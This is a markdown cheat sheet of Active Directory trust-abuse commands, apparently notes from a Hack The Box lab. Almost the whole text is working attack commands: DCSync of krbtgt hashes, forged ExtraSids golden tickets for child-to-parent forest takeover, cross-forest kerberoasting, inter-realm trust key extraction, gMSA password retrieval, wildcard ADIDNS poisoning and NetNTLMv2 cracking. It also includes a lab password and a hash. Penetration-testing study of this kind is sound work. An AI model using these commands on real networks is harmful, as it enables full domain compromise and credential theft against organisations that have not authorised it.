

#ad #trusts #forest #golden-ticket #sid-history

# AD Trust Attacks

Intra-forest (child→parent) and cross-forest trust abuse. Related: [kerberos-tickets](kerberos-tickets.md) · [dacl-attacks](dacl-attacks.md) · [enumeration](enumeration.md)

## Contents
- [Enumeration & Mapping](#enumeration--mapping)
- [Intra-Forest (Child to Parent)](#intra-forest-child-to-parent)
- [Cross-Forest](#cross-forest)
- [SQL Server Links (cross-forest pivot)](#sql-server-links-cross-forest-pivot)
- [GoldenGMSA](#goldengmsa)
- [ADIDNS / DNS Abuse](#adidns--dns-abuse)

## Trust Abuse Path



## Enumeration & Mapping
```powershell
Get-ADTrust -Filter *
```
Enumerate trusts (AD module).

```powershell
Get-DomainTrust
```
Enumerate trusts for the current domain (PowerView).

```powershell
Get-DomainTrustMapping
```
Enumerate all reachable domain trusts.

```cmd
.\Adalanche.exe collect activedirectory --domain inlanefreight.ad
```
Map AD with Adalanche.

## Intra-Forest (Child to Parent)

> [!IMPORTANT]
> This is the classic "ExtraSids" child→parent escalation: a compromised child domain always has a trust path to compromise the entire forest, because the child's krbtgt can forge a ticket carrying the parent's Enterprise Admins SID in `SIDHistory`.

```cmd
.\mimikatz.exe "lsadump::dcsync /user:DEV\krbtgt" exit
```
Obtain the child domain krbtgt hash.

```powershell
Get-ADGroup -Identity "Enterprise Admins" -Server "inlanefreight.ad"
```
Obtain the Enterprise Admins SID from the parent.

```cmd
.\Rubeus.exe golden /rc4:992093609707726257e0959ce3e23771 /domain:dev.inlanefreight.ad /sid:S-1-5-21-2901893446-2198612369-2488268719 /sids:S-1-5-21-2879935145-656083549-3766571964-519 /user:Administrator /ptt
```
Forge a cross-domain golden ticket with Enterprise Admins SID (Rubeus).

```cmd
mimikatz # kerberos::golden /user:htb-student /domain:dev.inlanefreight.ad /sid:<child SID> /krbtgt:<krbtgt hash> /sids:<parent EA SID>-519 /ptt
```
Forge a golden ticket with extra SID (Mimikatz).

```bash
ticketer.py -nthash 992093609707726257e0959ce3e23771 -domain dev.inlanefreight.ad -domain-sid <child SID> -extra-sid <parent EA SID>-519 htb-student
```
Forge golden ticket with extra SID (Impacket).

```bash
raiseChild.py -target-exec 172.16.210.99 dev.inlanefreight.ad/htb-student
```
Automate the ExtraSids child→parent attack (Impacket).

```bash
secretsdump.py dev.inlanefreight.ad/Administrator:'HTB_@cademy_adm!'@10.129.229.159 -just-dc-user DEV/krbtgt
```
DCSync the child krbtgt (Impacket).

## Cross-Forest
```cmd
.\Rubeus.exe kerberoast /domain:logistics.ad
```
Kerberoast across a forest trust. See [kerberoasting](kerberoasting.md).

```powershell
Get-ADUser -Filter "SIDHistory -Like '*'" -Properties SIDHistory
```
Enumerate users with SIDHistory set.

```powershell
Get-DomainTrust -domain logistics.ad | Where-Object {$_.TargetName -eq "inlanefreight.ad"} | Select TrustAttributes
```
Retrieve TrustAttributes for a trust.

```cmd
.\mimikatz.exe "lsadump::dcsync /user:INLANEFREIGHT\krbtgt" exit
```
DCSync the current domain krbtgt.

```bash
proxychains python getlocalsid.py inlanefreight.ad/Administrator@SQL02.logistics.ad SQL02
```
Get the local SID of a cross-forest server.

```cmd
.\mimikatz.exe "lsadump::dcsync /guid:{8d52f9da-361b-4dc3-8fa7-af5f282fa741}" "exit"
```
Retrieve inter-realm trust keys by GUID.

## SQL Server Links (cross-forest pivot)
```powershell
Get-SQLServerLink
```
Enumerate SQL Server links (PowerUpSQL). See [mssql-sccm](mssql-sccm.md).

```powershell
Get-SQLQuery -Query "EXEC sp_helplinkedsrvlogin"
```
Enumerate linked-server login rights.

```bash
mssqlclient.py jimmy@10.129.229.188 -windows-auth
```
Connect to SQL Server with Windows auth (Impacket).

## GoldenGMSA
```cmd
.\GoldenGMSA.exe gmsainfo --domain inlanefreight.ad
```
Enumerate gMSA accounts.

```cmd
.\GoldenGMSA.exe compute --sid "S-1-5-21-2879935145-656083549-3766571964-1106" --forest dev.inlanefreight.ad --domain inlanefreight.ad
```
Compute/retrieve a gMSA password.

## ADIDNS / DNS Abuse
```powershell
Import-Module Powermad.ps1
New-ADIDNSNode -Node * -domainController DC01.inlanefreight.ad -Domain inlanefreight.ad -Zone inlanefreight.ad -Tombstone -Verbose
```
Add a wildcard ADIDNS record (Powermad).

```powershell
Get-DnsServerResourceRecord -ComputerName DC01.inlanefreight.ad -ZoneName inlanefreight.ad -Name "@"
```
Enumerate DNS records in the parent domain.

```bash
hashcat -m 5600 buster_ntlmv2 /usr/share/wordlists/rockyou.txt
```
Crack intercepted NetNTLMv2 hashes. See [hashcat](../Passwords/hashcat.md).
